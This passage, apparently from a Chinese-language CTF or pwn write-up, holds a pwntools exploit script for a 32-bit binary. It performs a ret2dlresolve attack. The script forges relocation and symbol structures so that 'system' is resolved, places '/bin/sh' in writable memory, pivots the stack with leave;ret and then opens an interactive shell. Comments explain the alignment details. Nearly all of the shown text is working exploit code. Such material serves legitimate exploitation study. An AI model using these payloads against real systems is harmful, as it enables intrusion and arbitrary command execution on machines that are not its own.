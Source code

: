 ```bash
payload1 += p32(writable_addr)
payload1 += p32(100)
c.send(payload1)

# 第二次调用 read 函数，写入我们伪造的 ROP 链
payload2 =  p32(plt0)   # 0x8048380
payload2 += p32(reloc_index) # 0x23dc 构成 read_plt-->read(a1,a2,a3),但是经过我们伪造的 reloc_index，使得调用了 system(a1)；a2,a3 就不需要了。
payload2 += p32(0xdeadbeef)  # 返回地址
payload2 += p32(writable_addr+80) # '/bin/sh\x00' addr
payload2 += p32(0)          
payload2 += p32(0)          
payload2 += Elf32_rel_plt_sys 
# 为什么是 rel -- > sym --> str 的顺序呢？
# 因为这是按照_dl_runtime_resolve 函数的运行模式来决定的，详情请见博文[核心所在]
payload2 += align*b'a'  
# 我现在理解的是我们伪造的 dynsym 结构体必须相对于 dynsym 的首地址是 0x10 对齐的，不然就会报错
# 感觉这一点，应该是根据底层实现函数的机制来决定的。
# 这是根据我们前面伪造关系的来决定的，对齐 dynsym 即是 sym 在栈中的地址-dynsym 能被 0x10 除尽
payload2 += Elf32_Sym_sys
payload2 += b'system\x00'
payload2 += (80-len(payload2))*b'a'
payload2 += b'/bin/sh\x00'
c.send(payload2)

# 第三次调用 read 函数，将栈迁移到我们 ROP 链的地方
payload3 =  0x28 * b'a'
payload3 += p32(writable_addr-4) # ebp
payload3 += p32(leave_ret) # eip
# gdb.attach(c)
# pause()
c.send(payload3)

c.interactive()
```

[![](assets/1709193429-63d0f69e399216cc6238aa33a43caa6c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226194926-1765e004-d49d-1.png)